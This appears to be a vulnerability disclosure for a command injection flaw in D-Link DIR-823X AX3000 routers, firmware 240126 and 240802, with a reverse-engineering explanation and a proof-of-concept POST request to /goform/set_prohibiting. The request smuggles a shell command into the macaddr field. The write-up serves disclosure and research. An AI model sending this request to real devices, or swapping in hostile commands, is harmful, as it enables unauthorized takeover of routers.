 # Information

**Vendor of the products:** D-Link

**Vendor's website:** http://www.dlink.com.cn/

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ,  Zhao Jiangting([sta8r9@163.com](mailto:sta8r9@163.com))

**Affected products:** DIR-823X AX3000 Series Routers

**Affected firmware version:** 240126, 240802

**Firmware download address:** http://www.dlink.com.cn/home/product?id=3118

# Overview

A command injection vulnerability in D-Link DIR-823X Series Routers with firmware versions 240126/240802 allows an authorized attacker to execute arbitrary commands on remote devices by sending a POST request to `/goform/set_prohibiting` via the corresponding function, triggering remote command execution.

# Vulnerability details

By reverse engineering the `sub_42232C` function in this binary file, we can see that the value of the `macaddr` function is copied into the `command` variable via the `snprintf` function, after which the `system` function is executed. Therefore, by maliciously crafting the value of `macaddr`, command execution can be triggered.

![image-20250306225207155](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327700.png)

This function can be triggered by submitting a POST request to `/goform/set_prohibiting`.

# Poc

```python
POST /goform/set_prohibiting HTTP/1.1
Host: 192.168.122.130
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 75
Origin: http://192.168.122.130
Connection: close
Referer: http://192.168.122.130/login.html
Cookie: sessionid=00000000000000000000000000000000; token=00000000000000000000000000000000

macaddr=||touch%20/set_prohibiting||&token=00000000000000000000000000000000
```

# Attack Demonstration

![image-20250306094707761](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327258.png)